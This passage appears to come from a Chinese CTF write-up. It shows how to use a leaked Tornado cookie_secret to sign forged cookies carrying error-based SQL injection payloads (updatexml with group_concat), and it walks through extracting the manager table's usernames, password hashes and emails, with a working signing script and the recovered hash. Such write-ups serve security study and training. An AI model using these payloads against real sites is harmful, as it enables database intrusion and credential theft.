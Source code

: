 ```py
            self.redirect("http://" + URL + "/lock")
```

而 `set_secure_cookie` 方法来自 `tornado`，该方法使用一个 `cookie_secret` 来加密 `cookie`。我们可以在 `index.py` 中发现这个 `cookie_secret`：

```py
settings = {
    "static_path": os.path.join(os.path.dirname(__file__), "themes/static"),
    "template_path": os.path.join(os.path.dirname(__file__), "themes"),
    "cookie_secret": "M0ehO260Qm2dD/MQFYfczYpUbJoyrkp6qYoI2hRw2jc=",
    "login_url": "/login",
}
```

所以，我们在注入的时候，只需要将 payload 用 `cookie_secret` 加密即可。借助 `tornado` 写个脚本：

```py
import tornado.web
import tornado.ioloop

settings = {
  'cookie_secret': 'M0ehO260Qm2dD/MQFYfczYpUbJoyrkp6qYoI2hRw2jc='
}

class MainHandler(tornado.web.RequestHandler):
  def get(self):
    self.write('aaa')
    # self.set_secure_cookie('username', "' and updatexml(1,concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)#")
    # self.set_secure_cookie('username', "' and updatexml(1,concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_name='manager'),0x7e),1)#")
    # self.set_secure_cookie('username', "' and updatexml(1,concat(0x7e, (select group_concat(username,'||',password,'||',email) from manager),0x7e),1)#")
    self.set_secure_cookie('username', "' and updatexml(1,concat(0x7e, mid((select group_concat(username,'||',password,'||',email) from manager),30,40),0x7e),1)#")
    self.write(self.get_secure_cookie('username'))

def makeapp():
  return tornado.web.Application([
    (r'/index', MainHandler),
  ], **settings)

app = makeapp()
app.listen(8089)
tornado.ioloop.IOLoop.instance().start()
```

浏览器访问本机 8089 端口，在返回头 `Set-Cookie` 中得到加密后的注入语句，带着这个 cookie 访问网页的 `/lock`（而不是 `/login`）。在爆用户名、密码和邮箱时，显示长度有限制，因此需要分两次用 `mid` 截取，最终得到用户名、密码和邮箱为：

```
ichuqiu||318a61264482e503090facfc4337207f||545
```
